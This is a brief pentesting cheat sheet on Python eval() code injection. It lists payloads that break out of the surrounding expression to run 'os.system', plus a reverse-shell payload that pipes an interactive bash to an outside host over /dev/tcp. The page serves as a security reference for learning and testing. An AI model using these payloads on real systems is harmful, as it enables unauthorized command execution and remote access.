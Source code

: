 ```yaml
---
title: Python Eval Code Execution
description: Python's eval() method is vulnerable to arbitrary code execution.
tags:
    - Linux
    - Privilege Escalation
    - Web
refs:
date: 2023-04-11
draft: false
---
```


## Investigation

```py
eval(text)
eval(f"5 + {num}")
```

If the Python script allows us to input some value to the **"text"** variable, we can inject arbitrary code.

<br />

## Arbitrary Code Execution

Most of the time, we need to bypass another expression to execute our desired command.

```html
__import__('os').system('id')

<!-- Bypass another expression in eval -->
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#
```

### Reverse Shell

```html
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```